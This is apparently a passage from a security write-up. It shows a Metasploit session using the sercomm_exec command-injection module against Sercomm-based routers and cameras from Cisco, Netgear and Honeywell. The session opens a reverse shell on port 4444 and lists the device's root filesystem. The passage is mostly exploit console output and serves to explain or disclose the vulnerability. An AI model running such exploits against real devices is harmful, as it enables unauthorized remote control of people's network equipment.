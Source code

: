 ```

   Id  Name
   --  ----
   2   Cisco WAP4410N


msf exploit(sercomm_exec) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Generic Linux MIPS Big Endian
   1   Generic Linux MIPS Little Endian
   2   Cisco WAP4410N
   3   Honeywell WAP-PL2 IP Camera
   4   Netgear DG834
   5   Netgear DG834G
   6   Netgear DG834PN
   7   Netgear DGN1000
   8   Netgear DSG835
   9   Netgear WPNT834


msf exploit(sercomm_exec) > exploit

[*] Started reverse handler on 192.168.1.136:4444
[*] Command shell session 1 opened (192.168.1.136:4444 -> 192.168.1.1:2817) at 2014-01-14 00:33:02 -0500
[*] Command Stager progress - 100.00% done (1415/1415 bytes)

ls -al /
drwxrwxrwx    8 0        0               0 var
drwxr-xr-x    7 0        0              81 usr
drwxrwxrwx    4 0        0               0 tmp
drwxr-xr-x    2 0        0             217 sbin
drwxr-xr-x    2 0        0              36 root
dr-xr-xr-x   47 0        0               0 proc
drwxr-xr-x    2 0        0              23 lost+found
drwxr-xr-x    3 0        0             742 lib
drwxr-xr-x    6 0        0             352 etc
drwxr-xr-x    3 0        0             403 dev
drwxr-xr-x    2 0        0             323 bin
drwxr-xr-x   13 0        0             119 ..
drwxr-xr-x   13 0        0             119 .
```

At this point, command injection has been turned into a fully-fledged shell. As [egyp7](https://twitter.com/egyp7) says, "I love shells".

## The scary part
